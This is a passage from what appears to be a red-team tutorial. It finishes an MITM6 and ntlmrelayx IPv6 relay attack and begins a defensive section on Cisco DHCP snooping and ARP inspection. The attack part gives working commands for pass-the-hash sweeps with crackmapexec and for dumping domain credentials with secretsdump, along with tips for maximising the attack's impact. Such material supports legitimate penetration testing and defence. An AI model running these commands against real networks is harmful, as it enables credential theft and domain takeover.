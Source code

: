 ```bash
# MITM6 terminal will show:
# - DHCPv6 activity
# - DNS queries being intercepted

# ntlmrelayx terminal will show:
# - NTLM authentication attempts
# - Successful relays
# - Captured information
```

4. **Leverage captured credentials for further access**:

```bash
# Review captured credentials
cat loot/ntlm-hashes.txt

# Use captured credentials for other attacks
sudo crackmapexec smb 192.168.1.0/24 -u administrator -H <NTLM_HASH>

# If domain admin credentials are captured, dump domain data
sudo secretsdump.py -ntds /path/to/ntds.dit -system /path/to/SYSTEM -hashes <NTLM_HASH> LOCAL
```

This attack is particularly effective because:
- Most environments don't monitor or secure IPv6 traffic
- Windows prefers IPv6 by default, even in IPv4-only networks
- The attack requires no user interaction
- It can quickly escalate to domain administrator access

To maximize the attack's effectiveness:
- Target specific domains rather than all DNS traffic
- Run the attack during business hours when users are active
- Combine with other attacks like SMB relaying for maximum impact
- Be selective about relay targets to avoid account lockouts

MITM6 demonstrates the risk of overlooking IPv6 security in predominantly IPv4 environments. Many organizations focus on securing IPv4 traffic while neglecting IPv6, creating a significant blind spot that attackers can exploit.

## Defending Against Network Spoofing and Hijacking

Understanding defensive measures helps red teamers create more realistic tests and provide better remediation advice:

### 1. DHCP Snooping and ARP Inspection

Modern switches can detect and prevent ARP spoofing and rogue DHCP servers:

```bash
# Cisco switch DHCP snooping configuration
switch(config)# ip dhcp snooping
switch(config)# ip dhcp snooping vlan 1-4094
switch(config)# interface GigabitEthernet0/1
switch(config-if)# ip dhcp snooping trust
switch(config)# ip dhcp snooping information option

# Dynamic ARP Inspection
switch(config)# ip arp inspection vlan 1-4094
switch(config)# interface GigabitEthernet0/1
switch(config-if)# ip arp inspection trust
```
